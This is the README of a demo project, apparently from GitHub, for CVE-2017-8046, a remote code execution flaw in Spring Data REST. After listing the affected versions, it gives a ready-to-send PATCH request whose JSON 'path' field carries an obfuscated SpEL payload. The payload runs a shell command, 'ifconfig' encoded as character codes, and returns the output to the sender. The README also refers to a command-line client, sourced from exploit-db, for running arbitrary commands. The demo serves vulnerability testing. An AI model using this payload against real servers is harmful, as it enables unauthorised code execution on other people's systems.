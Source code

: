## Example of CVE-2017-8046: RCE in PATCH requests in Spring Data REST
Malicious PATCH requests submitted to servers using Spring Data REST backed HTTP 
resources can use specially crafted JSON data to run arbitrary Java code.

### Affected Pivotal Products and Versions
* Spring Data REST versions prior to 2.6.9 (Ingalls SR9), 3.0.1 (Kay SR1)
* Spring Boot (if Spring Data REST module is used) versions prior to 1.5.9, 2.0 M6

More info: https://pivotal.io/security/cve-2017-8046

### How to test?
#### Checkout this project

#### Run Spring Boot application
 It is a Spring Boot application with embedded Tomcat, so run the main class **SpringRestDataExploitExampleApplication**

#### Add a new user
To make a successful exploit test, run the following POST:
```
POST http://localhost:8080/users
Content-Type: application/json

{
  "name": "Test",
  "email": "test@test.com"
}
```
#### Make exploit using PATCH:
```
PATCH http://localhost:8080/users/1
Content-Type: application/json-patch+json

[{
  "op": "replace",
  "path": "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec((T(java.lang.System).getProperty(\"os.name\").toLowerCase().contains(\"win\")?\"cmd \"+T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F))+\"c \":\"\")+T(java.lang.String).valueOf(new char[]{T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(112)[0],T(java.lang.Character).toChars(99)[0],T(java.lang.Character).toChars(111)[0],T(java.lang.Character).toChars(110)[0],T(java.lang.Character).toChars(102)[0],T(java.lang.Character).toChars(105)[0],T(java.lang.Character).toChars(103)[0]})).getInputStream(),T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x",
  "value": "pwned"
}]
```
The previous PATCH sends the result of the **ifconfig** command back from server to you.

I have attached a more flexible client to make your own tests: the class SpringBreakCve20178046 with its own command line.
Source code comes from https://www.exploit-db.com/exploits/44289.